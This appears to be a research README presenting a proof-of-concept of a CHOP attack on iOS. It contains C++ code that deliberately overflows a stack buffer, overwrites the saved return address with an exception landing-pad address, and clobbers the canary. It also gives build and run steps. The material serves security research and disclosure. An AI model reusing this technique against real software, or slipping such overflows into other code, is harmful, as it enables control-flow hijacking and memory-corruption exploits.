

# Proof-of-Concept of CHOP on iOS

This is a straightforward implementation of a chop attack as part of an iOS app. The main code is in [ios-chop-tester/chop.cpp]:

```cpp
extern "C"
void Log(const char *message);
extern "C"
void Success();
extern "C"
void Failure();

void catches () {
   try {
       throw 1;
   }
   catch (...) {
       Success();
       _exit(1);
   }
}

void leaf_fn_spilling_lr () {
    Log(".");
}

void vuln(int op) {
    void * buf[1];
    buf[3] = (char *) catches + (size_t) 36;   // overwrite the saved return address - depending on your system, the offset may need to be changed
    buf[2] = (void *) 0xdeadbeef; // clobber the canary, because our exploit would do that too

    leaf_fn_spilling_lr();

    if (op == 1)
        throw 1;
}

void poc() {
    try {
        vuln(1);
    }
    catch (...) {
        Failure();
    }
}
```

A leaf function is used to force spilling of the link register to the stack and then overwritten with the address of the landing pad in `catches`.

## Building

Building this app requires Xcode. After setting the development team id, the app can be built by choosing a real iPhone as a target and clicking the play button.
Because of the way the iOS simulator works on x86, the app does not work on intel-based macs in the simulator.

## Running

After allowing notifications and pressing anywhere in the app, the vulnerability is triggered. When the exploit payload works, a notification is shown:


